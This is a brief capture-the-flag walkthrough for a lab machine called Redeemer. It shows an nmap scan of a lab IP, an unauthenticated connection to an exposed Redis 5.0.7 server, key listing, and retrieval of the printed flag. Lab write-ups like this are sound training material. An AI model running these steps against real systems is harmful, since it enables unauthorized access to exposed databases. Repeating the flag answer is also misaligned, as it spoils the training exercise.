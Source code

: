 # CTF Walkthrough: Redeemer

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** Redis
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -p- 10.129.225.56`
        - Output:
            ```
            PORT     STATE SERVICE VERSION
            6379/tcp open  redis   Redis key-value store 5.0.7
            ```

2. Connect to Redis database
    - Command: `redis-cli -h 10.129.225.56`

3. Show all Keys
    - Command: `KEYS *`

4. Get Flag
    - Command: `GET flag`
    - Flag : 03e1d2b376c37ab3f5319922053953eb
